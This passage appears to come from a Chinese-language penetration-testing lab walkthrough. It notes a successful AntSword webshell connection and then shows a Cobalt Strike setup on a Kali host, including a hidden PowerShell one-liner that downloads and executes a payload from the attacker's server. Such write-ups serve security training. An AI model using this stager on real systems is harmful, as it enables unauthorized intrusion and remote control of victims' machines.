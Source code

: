 使用蚁剑连接成功。

![image-20240121180758250](assets/image-20240121180758250.png)

### 上线CS

CS客户端服务端都部署在192.168.1.128的kali主机上，创建监听并生成`powershell`生成`powershell`

```powershell
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.1.128:8080/hack'))"
```

![image-20240121182339542](assets/image-20240121182339542.png)
